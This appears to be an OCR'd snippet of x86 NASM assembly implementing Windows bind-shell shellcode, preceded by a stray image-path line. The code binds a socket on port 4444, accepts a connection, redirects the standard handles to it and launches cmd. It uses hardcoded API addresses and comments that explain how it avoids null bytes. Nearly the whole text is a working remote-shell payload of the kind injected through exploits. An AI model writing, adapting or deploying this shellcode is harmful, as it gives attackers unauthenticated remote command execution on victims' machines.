 ```nasm
; bind(SOCKET s, const sockaddr *addr, int namelen)
xor eax, eax
push eax             ; Creating space on stack
mov eax, 0x5c110102 
dec ah               ; eax: 0x5c110102 -> 0x5c110002 (Mitigating null byte)
push eax             ; Store the portnr on stack
mov eax, esp         ; Store pointer to the portnr
push 0x10            ; Arg namelen = 16 bytes
push eax             ; Arg *addr = eax -> 0x5c110002 (5c11 = 4444, 0002 = INET_AF)
push ebx             ; Arg s = WSASocket() handler
mov eax, 0x71AB4480
call eax

; listen(SOCKET s, int backlog)
push 0x1             ; Arg backlog = 1         
push ebx             ; Arg s = WSASocket() handler
mov eax, 0x71AB8CD3       
call eax

; accept(SOCKET s, sockaddr *addr, int *addrlen)      
xor eax, eax
push eax             ; Arg addrlen = 0
push eax             ; Arg *addr = 0
push ebx             ; Arg s = WSASocket() handler
mov eax, 0x71AC1040
call eax
mov ebx, eax         ; Store accept() handler

; SetStdHandle(_In_ DWORD nStdHandle, _In_ HANDLE hHandle)
mov edx, 0x7c81d363

push ebx             ; Arg hHandle = accept() handler
push 0xfffffff6      ; Arg nStdHandle = -0A (STD_INPUT)
call edx
          
push ebx             ; Arg hHandle = accept() handler
push 0xfffffff5      ; Arg nStdHandle = -0B (STD_OUTPUT)
call edx
          
push ebx             ; Arg hHandle = accept() handler          
push 0xfffffff4      ; Arg nStdHandle = -0C (STD_ERROR)
call edx

; system(const char *command)
mov DWORD [esp-0x5], 0x646d6341   ; Store string "Acmd" 5 bytes from top of stack
lea eax, [esp-0x4]                ; Store pointer to the string "cmd\0" in eax
lea esp, [esp-0x4]                ; Manually update esp
push eax                          ; Arg *command = eax -> "cmd"
mov eax, 0x77c293c7
call eax
```
